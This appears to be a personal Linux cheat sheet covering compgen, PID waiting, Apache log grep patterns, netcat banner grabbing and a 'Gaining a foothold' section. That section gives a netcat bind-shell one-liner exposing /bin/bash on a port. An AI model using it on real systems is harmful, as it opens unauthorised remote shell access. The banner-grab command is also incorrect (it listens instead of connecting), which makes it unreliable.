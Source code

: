 # Linux  

## Check My IP `curl https://checkip.amazonaws.com`  

## Wait for a job/command to finish  
Will print PID and wait for the last PID in the queue
```
sleep 60 &
PID_number_of_last_command=$!
wait ${PID_number_of_last_command}

```
# What can run
```sh
compgen -c # Will list all the commands you could run.
compgen -a # Will list all the aliases you could run.
compgen -b # Will list all the built-ins you could run.
compgen -k # Will list all the keywords you could run.
compgen -A function # Will list all the functions you could run.
```

# Reconnaissance  
## Netcat is not Ncat
Fun not-a-fact: Ncat comes from Nmap according to a post on a forum.  
- Banner
```sh
# Print the banner of a webserver
nc -l $target_ip 80
```  
and then as a payload
```http
HEAD / HTTP/1.0
```

# GREP  
Find a string  
```sh
sudo grep -E '\" [1345][01235][0-9] [[:digit:]]{1,8} \"' /var/log/apache2/access.log

# Real time tailing logs
sudo tail -f /var/log/apache2/access.log | grep -E '\" [1345][01235][0-9] [[:digit:]]{1,8} \"'

# Run the results through grep to find any 500 status codes
grep "[: ]500[: ]" access.log

# Find any non 200 status codes
grep -v "[: ]200[: ]" access.log

# Find multiple status codes
grep -e "[: ]500[: ]" -e "[: ]405[: ]" -e "[: ]403[: ]" access_logs.txt

# To use grep to search a directory:
grep "[: ]200[: ]" -nr .
```

# Gaining a foothold
## Spawn a shell
```sh
port_number=$1
nc -l -p $port_number -e /bin/bash
```  
Spawn a shell: `nc -l -p 443 -e /bin/bash`  